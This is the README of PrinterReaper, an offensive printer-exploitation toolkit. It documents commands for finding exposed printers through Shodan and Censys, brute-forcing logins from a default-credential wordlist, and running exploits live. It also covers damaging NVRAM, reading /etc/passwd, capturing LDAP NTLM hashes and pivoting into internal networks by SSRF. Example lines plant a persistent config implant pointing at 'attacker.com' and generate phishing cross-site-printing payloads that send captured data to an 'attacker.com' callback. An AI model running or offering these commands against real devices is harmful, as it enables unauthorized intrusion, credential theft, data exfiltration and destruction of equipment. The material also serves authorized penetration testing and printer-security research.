




<div align="center">

<a href="https://www.uniaogeek.com.br"></a>

# PrinterReaper v3.7.0

*Advanced Printer Penetration Testing Toolkit*

**Discover · Fingerprint · Exploit · Pivot · Report**

[](https://python.org)
[](LICENSE)
[](https://github.com/mrhenrike/PrinterReaper/releases)
[](https://github.com/mrhenrike/PrinterReaper/wiki)

> **"Is your printer safe from the void? Find out before someone else does."**

**[Website](https://www.uniaogeek.com.br/printer-reaper)** · **[Wiki](https://github.com/mrhenrike/PrinterReaper/wiki)** · **[Issues](https://github.com/mrhenrike/PrinterReaper/issues)** · **[Releases](https://github.com/mrhenrike/PrinterReaper/releases)**

</div>

---

PrinterReaper is a complete, modular framework for security assessment of network printers. It covers all major printer languages (PJL, PostScript, PCL, ESC/P), all common protocols (RAW, IPP, LPD, SMB, HTTP, SNMP, FTP, Telnet), 39+ exploit modules, an external wordlist-driven credential engine with zero hardcoded passwords, ML-assisted fingerprinting, NVD/CVE integration, automated lateral movement, firmware analysis, and Cross-Site Printing payloads.

---

## Architecture — Printer Attack Surface



---

## Operational Workflow



> Flow source files (editable in [draw.io](https://app.diagrams.net)): `diagrams/printerreaper_workflow.drawio` · `diagrams/credential_flow.drawio` · `diagrams/attack_matrix.drawio`

---

## Attack Coverage Matrix



---

## Credential Architecture — Zero Hardcoded Passwords



---

## PrinterReaper vs PRET — Benchmark

[PRET](https://github.com/RUB-NDS/PRET) (Printer Exploitation Toolkit) is the reference tool from the BlackHat 2017 research by Müller et al. PrinterReaper was initially forked from it and has since been rewritten and massively extended.

| Feature | PRET | PrinterReaper v3.7.0 |
|---------|------|----------------------|
| **Languages** | PJL, PS, PCL | PJL, PS, PCL, ESC/P, auto |
| **Protocols** | RAW, LPD, IPP, USB | RAW, LPD, IPP, SMB, HTTP, SNMP, FTP, Telnet |
| **CVE Database** | None | 50+ CVEs built-in + NVD API live lookup |
| **Exploit Library** | None | 39+ modules (ExploitDB, Metasploit, Research) |
| **Brute-Force** | None | HTTP, FTP, SNMP, Telnet — wordlist-driven, 0 hardcoded creds |
| **Credential Engine** | None | External wordlists, vendor sections, token expansion, variations |
| **Network Discovery** | None | SNMP sweep, Shodan, Censys, WSD, installed printers |
| **Fingerprinting** | Basic banner | Multi-protocol banner grab + ML classifier |
| **CVE Scan** | None | NVD API + offline fallback + auto exploit matching |
| **ML Engine** | None | scikit-learn fingerprinting + attack scoring |
| **Lateral Movement** | None | SSRF via IPP/WSD, network map, LDAP NTLM hash capture |
| **Firmware Analysis** | None | Version extraction, upload endpoint check, NVRAM r/w |
| **Storage Audit** | None | FTP, web file manager, SNMP MIB dump, saved jobs |
| **Cross-Site Printing** | None | XSP + CORS spoofing payload generator (5 attack types) |
| **Attack Matrix** | None | Full BlackHat 2017 campaign + 2024-2025 CVEs |
| **Send Print Job** | Partial | Any format: .ps/.pcl/.pdf/.txt/.png/.jpg/.doc + raw |
| **Interactive Menu** | None | Full guided TUI with next-steps and hints |
| **Config / API Keys** | None | config.json with Shodan, Censys, NVD, ML flags |
| **Python Version** | 2.7 (legacy) | 3.8+ (typed, async-capable) |
| **Windows Support** | Limited | Full (PowerShell launchers, EDR-safe venv) |
| **IPv6** | No | Yes |
| **SMB** | No | Yes (pysmb) |
| **Wiki / Docs** | Basic README | Full GitHub wiki + draw.io diagrams |

**Summary:** PrinterReaper covers the same core PJL/PS/PCL shell as PRET plus a complete post-exploitation, discovery, brute-force, CVE, and lateral movement framework on top.

---

## Installation

```bash
git clone https://github.com/mrhenrike/PrinterReaper.git
cd PrinterReaper

python -m venv .venv
source .venv/bin/activate        # Linux / macOS
.venv\Scripts\activate           # Windows PowerShell

pip install -r requirements.txt
python printer-reaper.py --version
# → printerreaper Version 3.7.0 (2026-03-25)
```

**Requirements:** Python 3.8+ · Windows / Linux / macOS · 80 MB disk

---

## Entry Point

```bash
python printer-reaper.py [target] [mode] [options]
```

| Example | What it does |
|---------|-------------|
| `python printer-reaper.py` | Interactive guided menu |
| `python printer-reaper.py --help` | Full flag reference |
| `python printer-reaper.py 192.168.1.100 --scan` | Passive fingerprint + CVE scan |
| `python printer-reaper.py 192.168.1.100 pjl` | PJL interactive shell |
| `python printer-reaper.py 192.168.1.100 --bruteforce --bf-vendor epson` | Credential brute-force |
| `python printer-reaper.py 192.168.1.100 --attack-matrix` | Full attack campaign |
| `python printer-reaper.py 192.168.1.100 --xpl-list` | List all exploit modules |

---

## 1. Discovery

```bash
# SNMP sweep + installed printers on host
python printer-reaper.py --discover-local

# Online — Shodan / Censys (needs API keys in config.json)
python printer-reaper.py --discover-online

# Passive OSINT check for a specific IP
python printer-reaper.py 192.168.1.100 --osint

# Detect supported languages without connecting
python printer-reaper.py 192.168.1.100 --auto-detect
```

---

## 2. Reconnaissance

```bash
# Full passive scan: banner grab + CVE/NVD lookup + exploit matching
python printer-reaper.py 192.168.1.100 --scan

# Same + ML fingerprinting and attack scoring
python printer-reaper.py 192.168.1.100 --scan-ml

# Offline (skip NVD API)
python printer-reaper.py 192.168.1.100 --scan --no-nvd

# Scan + immediately match exploit modules
python printer-reaper.py 192.168.1.100 --scan --xpl

# Combined: scan auto-populates vendor + serial for bruteforce
python printer-reaper.py 192.168.1.100 --scan --bruteforce
```

---

## 3. Interactive Shell

```bash
# Auto-detect best language
python printer-reaper.py 192.168.1.100 auto

# Specific languages
python printer-reaper.py 192.168.1.100 pjl       # PJL: filesystem, NVRAM, control
python printer-reaper.py 192.168.1.100 ps        # PostScript: operators, job capture
python printer-reaper.py 192.168.1.100 pcl       # PCL: macro filesystem

# Debug, batch, log modes
python printer-reaper.py 192.168.1.100 pjl --debug
python printer-reaper.py 192.168.1.100 pjl -i commands.txt -o session.log -q
```

**Key PJL commands:**

```bash
192.168.1.100:/> id              # model, firmware, serial
192.168.1.100:/> network         # IP, gateway, DNS, WINS, MAC
192.168.1.100:/> ls /            # filesystem listing
192.168.1.100:/> cat /etc/passwd # read file
192.168.1.100:/> download /webServer/config/soe.xml
192.168.1.100:/> nvram read      # NVRAM dump
192.168.1.100:/> display "HACKED"
192.168.1.100:/> destroy         # NVRAM damage (lab only)
```

---

## 4. Credential Brute-Force

```bash
# Auto-detect vendor, use default wordlist
python printer-reaper.py 192.168.1.100 --bruteforce

# Explicit vendor + serial (Epson / HP / Canon)
python printer-reaper.py 192.168.1.100 --bruteforce --bf-vendor epson --bf-serial XAABT77481

# MAC-based tokens (OKI, Brother, Kyocera KR2)
python printer-reaper.py 192.168.1.100 --bruteforce --bf-vendor oki --bf-mac AA:BB:CC:DD:EE:FF

# Custom wordlist (replaces default)
python printer-reaper.py 192.168.1.100 --bruteforce --bf-wordlist /path/to/creds.txt

# Add individual credentials (highest priority)
python printer-reaper.py 192.168.1.100 --bruteforce --bf-cred admin:MyPass --bf-cred root:

# No variation engine (faster)
python printer-reaper.py 192.168.1.100 --bruteforce --bf-no-variations --bf-delay 2.0
```

**Protocols tested:** HTTP/HTTPS · FTP · SNMP community strings · Telnet

**Wordlist format:**
```
# ── Epson ──────────────────────────────────────────────────────────────────
admin:epson
admin:__SERIAL__      # expanded to --bf-serial value at runtime
# ── HP ─────────────────────────────────────────────────────────────────────
Admin:Admin
jetdirect:
admin:hpinvent!
```

---

## 5. Exploit Library

```bash
# List all 39+ modules sorted by CVSS
python printer-reaper.py 192.168.1.100 --xpl-list
python printer-reaper.py 192.168.1.100 --xpl-list --xpl-source exploit-db

# Non-destructive vulnerability check
python printer-reaper.py 192.168.1.100 --xpl-check edb-35151
python printer-reaper.py 192.168.1.100 --xpl-check edb-cve-2024-51978

# Run exploit (dry-run default)
python printer-reaper.py 192.168.1.100 --xpl-run edb-35151
python printer-reaper.py 192.168.1.100 --xpl-run edb-35151 --no-dry  # live

# Download exploit from ExploitDB
python printer-reaper.py --xpl-fetch 45273

# Rebuild index after adding modules
python printer-reaper.py --xpl-update
```

---

## 6. Full Attack Matrix

Runs every attack category from BlackHat 2017 + 2024-2025 CVEs:

```bash
# Dry-run (probe only)
python printer-reaper.py 192.168.1.100 --attack-matrix

# Live exploitation — AUTHORIZED LABS ONLY
python printer-reaper.py 192.168.1.100 --attack-matrix --no-dry

# Combined with network map
python printer-reaper.py 192.168.1.100 --attack-matrix --network-map --no-dry
```

**Categories:** DoS · Protection Bypass · Job Manipulation · Information Disclosure · CORS/XSP · SNMP write · Network pivoting

---

## 7. Lateral Movement & Network Mapping

```bash
# SSRF audit via IPP/WSD
python printer-reaper.py 192.168.1.100 --pivot

# Port-scan internal host via printer SSRF
python printer-reaper.py 192.168.1.100 --pivot-scan 10.0.0.1

# Full network map from printer's perspective
python printer-reaper.py 192.168.1.100 --network-map

# LDAP NTLM hash capture
python printer-reaper.py 192.168.1.100 --xpl-run research-ldap-hash-capture --no-dry
```

---

## 8. Storage, Firmware & Payloads

```bash
# Storage audit: FTP, web file manager, SNMP MIB, saved jobs
python printer-reaper.py 192.168.1.100 --storage

# Firmware: version, upload endpoint check, NVRAM probe
python printer-reaper.py 192.168.1.100 --firmware

# Factory reset (dry-run probes endpoints)
python printer-reaper.py 192.168.1.100 --firmware-reset pjl
python printer-reaper.py 192.168.1.100 --firmware-reset web

# Persistent config implant
python printer-reaper.py 192.168.1.100 --implant smtp_host=attacker.com
python printer-reaper.py 192.168.1.100 --implant snmp_community=hacked

# Language-specific payload injection
python printer-reaper.py 192.168.1.100 --payload pjl:reset
python printer-reaper.py 192.168.1.100 --payload ps:loop
python printer-reaper.py 192.168.1.100 --payload ps:custom --payload-data "statusdict begin showROMfonts end"
```

---

## 9. Cross-Site Printing (XSP)

```bash
# Generate attack payloads (deployed via phishing / watering hole)
python printer-reaper.py 192.168.1.100 --xsp info
python printer-reaper.py 192.168.1.100 --xsp capture --xsp-callback https://attacker.com/log
python printer-reaper.py 192.168.1.100 --xsp dos
python printer-reaper.py 192.168.1.100 --xsp nvram
python printer-reaper.py 192.168.1.100 --xsp exfil
```

---

## 10. IPP & Send Job

```bash
# Full IPP security audit
python printer-reaper.py 192.168.1.100 --ipp

# Submit anonymous print job (dry-run)
python printer-reaper.py 192.168.1.100 --ipp-submit
python printer-reaper.py 192.168.1.100 --ipp-submit --no-dry

# Send any file to printer
python printer-reaper.py 192.168.1.100 --send-job document.pdf
python printer-reaper.py 192.168.1.100 --send-job payload.ps --send-proto raw
python printer-reaper.py 192.168.1.100 --send-job flyer.pdf --send-copies 10 --send-proto lpd
```

---

## Full Flag Reference

```
POSITIONAL
  target               Printer IP or hostname
  mode                 pjl | ps | pcl | auto

GENERAL
  -h, --help           Show help
  --version            Show version
  -q, --quiet          Suppress banner
  -d, --debug          Show raw bytes
  -s, --safe           Verify language support before connecting
  -i FILE              Batch commands from file
  -o FILE              Log raw sent data to file
  --config PATH        Custom config.json
  -I, --interactive    Guided menu

DISCOVERY
  --discover-local     SNMP sweep + host installed printers
  --discover-online    Shodan / Censys search
  --osint              Passive OSINT for target IP
  --auto-detect        Detect supported printer languages

RECON (no payloads)
  --scan               Banner grab + CVE lookup + attack surface
  --scan-ml            --scan + ML fingerprinting + attack scoring
  --no-nvd             Skip NVD API (offline mode)
  --xpl                Auto-match exploits after --scan

IPP
  --ipp                Full IPP security audit
  --ipp-submit         Submit anonymous IPP job (dry-run)
  --no-dry             Disable dry-run

PAYLOAD
  --payload LANG:TYPE  Inject language-specific payload
  --payload-data STR   Custom PS/PJL string

SEND JOB
  --send-job FILE      Send file to printer
  --send-proto PROTO   raw (9100) | ipp (631) | lpd (515)
  --send-copies N      Number of copies (default: 1)
  --send-queue NAME    LPD queue name (default: lp)

LATERAL MOVEMENT
  --pivot              SSRF audit via IPP/WSD
  --pivot-scan HOST    Port-scan HOST via printer SSRF
  --network-map        Full network map from printer's perspective
  --implant KEY=VALUE  Persistent config implant

STORAGE & FIRMWARE
  --storage            FTP, web, SNMP MIB, saved jobs audit
  --firmware           Firmware version, upload endpoint, NVRAM
  --firmware-reset M   Factory reset via pjl | web | ipp (DANGEROUS)

ATTACK CAMPAIGN
  --attack-matrix      Full BlackHat 2017 campaign (dry-run default)
  --no-dry             Live exploitation

XSP
  --xsp TYPE           info | capture | dos | nvram | exfil
  --xsp-callback URL   Callback URL for exfil

EXPLOIT LIBRARY
  --xpl-list           List all exploits
  --xpl-source SRC     metasploit | exploit-db | research | custom
  --xpl-check ID       Non-destructive probe
  --xpl-run ID         Run exploit (add --no-dry for live)
  --xpl-update         Rebuild xpl/index.json
  --xpl-fetch EDB_ID   Download from ExploitDB

BRUTE-FORCE
  --bruteforce         BF: HTTP, FTP, SNMP, Telnet
  --bf-vendor VENDOR   Vendor override
  --bf-serial SERIAL   Device serial (__SERIAL__ token)
  --bf-mac MAC         MAC address (__MAC6__, __MAC12__ tokens)
  --bf-wordlist FILE   Custom wordlist (replaces default)
  --bf-cred USER:PASS  Extra credential (repeatable)
  --bf-no-variations   Disable leet/reverse/camelcase
  --bf-delay SECS      Delay between attempts (default: 0.3s)

CONFIG
  --check-config       Show API key status
```

---

## Supported Vendors (20+)

Epson · HP · Brother · Ricoh · Xerox · Canon · Kyocera · Samsung · OKI · Lexmark · Konica Minolta · Fujifilm · Sharp · Toshiba · Zebra · Axis · Pantum · Sindoh · Develop · Utax

---

## Configuration

```json
{
  "shodan":  { "api_key": "YOUR_KEY" },
  "censys":  { "api_id": "YOUR_ID", "api_secret": "YOUR_SECRET" },
  "nvd":     { "api_key": "YOUR_KEY" },
  "ml":      { "enabled": true },
  "network": { "timeout": 6, "snmp_timeout": 3 }
}
```

```bash
cp config.json.example config.json
python printer-reaper.py --check-config
```

---

## Diagram Sources

All flow diagrams are editable in [diagrams.net / draw.io](https://app.diagrams.net):

| File | Description |
|------|-------------|
| `diagrams/printerreaper_workflow.drawio` | 6-phase operational workflow |
| `diagrams/credential_flow.drawio` | Credential architecture flow |
| `diagrams/attack_matrix.drawio` | Attack coverage matrix |
| `diagrams/*.mmd` | Mermaid source diagrams |

---

## Version History

| Version | Date | Highlights |
|---------|------|------------|
| **3.7.0** | 2026-03-25 | Zero hardcoded creds, wordlist engine, draw.io diagrams, PNG assets |
| 3.6.2 | 2026-03-25 | LDAP hash capture, CVE-2024-51978, 5 new vendors |
| 3.6.0 | 2026-03-24 | 7 new BlackHat 2017 exploits + EDB research modules |
| 3.5.0 | 2026-03-24 | `--send-job`, wordlists subfolder, emoji-free CLI |
| 3.4.2 | 2026-03-24 | Interactive guided menu, spinner, next-steps hints |
| 3.4.1 | 2026-03-24 | Login brute-force engine, variation generator |
| 3.4.0 | 2026-03-24 | Exploit library (xpl/), --xpl-* flags, auto-matching |
| 3.3.0 | 2026-03-24 | --attack-matrix, --network-map, XSP/CORS spoofing |
| 3.2.0 | 2026-03-24 | IPP attacks, SSRF pivot, storage, firmware, implants |
| 3.1.0 | 2026-03-24 | --scan/--scan-ml, CVE scanner, ML engine, Shodan |
| 3.0.0 | 2026-03-24 | IPv6, SMB, pysnmp v5/v7, IPP/TLS, local discovery |
| 2.5.x | 2025-10-05 | Cross-platform, PRET fork, 109 commands |

---

## References

- Müller et al. — *Exploiting Network Printers*, BlackHat USA 2017
- [Hacking Printers Wiki](http://hacking-printers.net)
- [ExploitDB — Printer exploits](https://www.exploit-db.com/search?q=printer&verified=true)
- [NVD — National Vulnerability Database](https://nvd.nist.gov)
- [PRET — Printer Exploitation Toolkit](https://github.com/RUB-NDS/PRET)

---

## Legal Disclaimer

PrinterReaper is developed for **authorized security research, penetration testing, and educational purposes only**. Using this tool against systems you do not own or have explicit written authorization to test is **illegal**. The author assumes no liability for misuse.

---

<div align="center">

**PrinterReaper v3.7.0**
*Advanced Printer Penetration Testing Toolkit*

Made with care for the security community.

[Documentation](https://github.com/mrhenrike/PrinterReaper/wiki) | [Issues](https://github.com/mrhenrike/PrinterReaper/issues) | [Releases](https://github.com/mrhenrike/PrinterReaper/releases)

---

### Powered by União Geek

<a href="https://www.uniaogeek.com.br"></a>

**[www.uniaogeek.com.br](https://www.uniaogeek.com.br)**

</div>
